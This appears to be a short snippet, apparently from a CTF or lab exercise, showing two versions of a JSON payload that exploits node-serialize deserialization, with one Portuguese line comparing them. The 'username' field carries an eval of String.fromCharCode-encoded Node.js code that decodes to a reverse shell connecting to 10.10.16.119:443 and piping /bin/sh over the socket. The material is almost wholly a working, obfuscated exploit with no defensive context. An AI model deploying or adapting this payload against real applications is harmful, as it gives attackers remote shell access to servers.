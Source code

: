 ```
{"username":"_$$ND_FUNC$$_eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,54,46,49,49,57,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))","country":"Brasil","city":"Brasil","num":"666"}
```

O que estava antes era assim:

```
{"username":"_$$ND_FUNC$$_function(){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,54,46,49,49,57,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}","country":"Brasil","city":"Brasil","num":"666"}
```
